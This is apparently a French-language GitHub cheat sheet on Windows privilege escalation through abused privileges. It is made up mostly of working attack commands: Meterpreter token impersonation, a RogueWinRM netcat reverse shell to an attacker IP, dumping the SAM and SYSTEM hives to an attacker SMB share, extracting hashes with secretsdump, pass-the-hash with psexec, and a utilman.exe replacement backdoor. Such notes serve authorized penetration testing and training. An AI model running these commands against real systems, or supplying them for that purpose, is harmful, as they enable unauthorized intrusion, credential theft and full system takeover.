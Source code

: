 # Windows Privileges

Pour une liste complète des privilèges exploitables https://github.com/gtworek/Priv2Admin

## SeImpersonate / SeAssignPrimaryToken
Permettent à un processus d'exécuter n'importe quelle commande au nom de n'importe quel utilisateur

**Meterpreter**

```sh
load incognito
list_tokens -u
impersonate_token <TOKEN>
```

```sh
use exploit/windows/local/ms16_075_reflection
```

**RogueWinRM**

Démarrer un écouteur netcat pour recevoir un shell inversé

```sh
rlwrap nc -nlvp 4442
```

Exécuter [Exploit RogueWinRM](https://github.com/antonioCoco/RogueWinRM)

```sh
RogueWinRM.exe -p "C:\Temp\nc64.exe" -a "-e cmd.exe <ATTACKER_IP> 4442"
```

Ou utiliser le module `incognito` de  qui va nous permettre d'exploiter cette vulnérabilité. 

## SeBackup / SeRestore

Permettent aux utilisateurs de lire et d'écrire dans n'importe quel fichier du système, en ignorant toute DACL en place

Disposant de ce pouvoir, un attaquant dumper SAM et SYSTEM pour extraire le hachage du mot de passe de l'administrateur local.

```sh
reg.exe save HKLM\SAM C:\Users\Dipeua\sam.bak
reg.exe save HKLM\SYSTEM C:\Users\Dipeua\system.bak
```

Telecharger les fichier `.bak`

```sh
impacket-smbserver share . -smb2support

reg.exe save HKLM\SAM \\<ATTACKING_IP>\share\sam.bak
reg.exe save HKLM\SYSTEM \\<ATTACKING_IP>\share\system.bak
```

Dump les hashs

```sh
/usr/share/creddump7/pwdump.py system.bak sam.bak

secretsdump.py -sam sam.bak -system system.bak LOCAL
```

Puis effectuer une attaque Pass-the-Hash pour obtenir un shell

```sh
impacket-psexec -hashes LM_HASH:NT_HASH administrator@<TARGET_IP>

pth-winexe -U 'administrator%LM_HASH:NT_HASH' //<TARGET_IP> cmd.exe
```

## SeTakeOwnership

Permet à un utilisateur de s'approprier n'importe quel objet du système, y compris les fichiers et les clés de registre

> Nous allons abuser `utilman.exe` pour élever les privilèges. Utilman est une application Windows intégrée utilisée pour fournir des options de facilité d'accès pendant l'écran de verrouillage.

Pour remplacer utilman, on va commencer par s'en approprier

```sh
takeown /f C:\Windows\System32\Utilman.exe
```

Donner à l'utilisateur toutes les autorisations sur `utilman.exe`

```sh
icacls C:\Windows\System32\Utilman.exe /grant <ACTUAL_USER>:F
```

Après cela, nous remplacerons `utilman.exe` par une copie de `cmd.exe`

```sh
cd C:\Windows\System32\
copy cmd.exe utilman.exe
```

Pour déclencher utilman, :
- Verrouiller l'écran depuis le bouton démarrer
- cliquez sur le bouton "Ease of Access (Option d'ergonomie)"
- Une fenetre cmd vas afficher
